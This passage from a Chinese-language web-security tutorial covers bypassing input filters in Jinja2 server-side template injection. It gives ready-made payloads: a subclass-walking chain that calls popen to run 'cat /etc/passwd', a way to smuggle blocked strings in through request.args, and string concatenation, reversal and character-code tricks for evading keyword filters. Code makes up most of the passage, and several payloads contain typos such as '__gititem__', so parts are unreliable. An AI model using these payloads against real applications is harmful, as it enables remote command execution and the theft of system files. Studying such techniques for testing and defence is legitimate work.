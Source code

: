 #### 利用request绕过单双引号过滤和关键字过滤
<font style="color:rgb(77, 77, 77);">如果对我们特定的参数进行了严格的过滤，我们就可以使用request来进行绕过</font>

<font style="color:rgb(77, 77, 77);">常用的request绕过payload</font>

```php
request.args.key  #获取get传入的key的值

request.form.key  #获取post传入参数(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)

reguest.values.key  #获取所有参数，如果get和post有同一个参数，post的参数会覆盖get

request.cookies.key  #获取cookies传入参数

request.headers.key  #获取请求头请求参数

request.data  #获取post传入参数(Content-Type:a/b)

request.json  #获取post传入json参数 (Content-Type: application/json)

```

例如如果过滤了单引号

```php
{{[].__class__.__base__.__subclasses__().__gititem__(117).__init__.__globals__.__gititem__('popen')('cat /etc/passwd').read()}}
等价于
{{[].__class__.__base__.__subclasses__().__gititem__(117).__init__.__globals__.__gititem__(request.args.key1)(request.args.key2).read()}}
//get方式传入参数  key1=popen  key2=cat /etc/passwd
```

同样过滤了特定关键字也可以通过request方法绕过过滤

#### 关键字绕过过滤
##### 1、拼接
```php
"class"
等价于
"cla"+"ss"
//在jinjia2里面，"cla""ss"是等同于"class"的
```

##### 2、反转
```php
"__class__"
等价于
"__ssalc__"[::-1]
```

##### <font style="color:rgb(77, 77, 77);">3、ascii转换</font>
```php
"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
```
